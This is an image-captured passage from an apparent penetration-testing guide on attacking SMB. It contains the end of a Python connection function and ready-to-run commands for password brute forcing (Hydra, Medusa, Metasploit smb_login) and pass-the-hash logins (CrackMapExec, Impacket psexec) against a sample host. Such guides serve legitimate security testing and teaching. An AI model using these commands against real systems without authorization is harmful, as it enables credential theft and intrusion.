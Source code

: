 ```python
                print(f"    Can't list files: {str(e)}")
        
        return smb
    except Exception as e:
        print(f"[-] Failed to connect: {str(e)}")
        return None

# Example usage
smb = connect_smb("192.168.1.10", "administrator", "password", "WORKGROUP")
```

## Attack Vectors

### Password Attacks

#### SMB Brute Force

```bash
# Using Hydra
hydra -l administrator -P /path/to/wordlist.txt smb://192.168.1.10

# Using Medusa
medusa -h 192.168.1.10 -u administrator -P /path/to/wordlist.txt -M smbnt
```

#### Using Metasploit

```
# Launch Metasploit
msfconsole

# SMB login bruteforce
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.1.10
set USER_FILE /path/to/users.txt
set PASS_FILE /path/to/passwords.txt
set VERBOSE false
run
```

### Pass-the-Hash Attacks

Pass-the-Hash (PtH) attacks allow an attacker to authenticate using NTLM hashes without knowing the actual password.

```bash
# Using CrackMapExec
crackmapexec smb 192.168.1.10 -u administrator -H NTLM:HASH

# Using Impacket's psexec
psexec.py -hashes LMHASH:NTHASH administrator@192.168.1.10
```
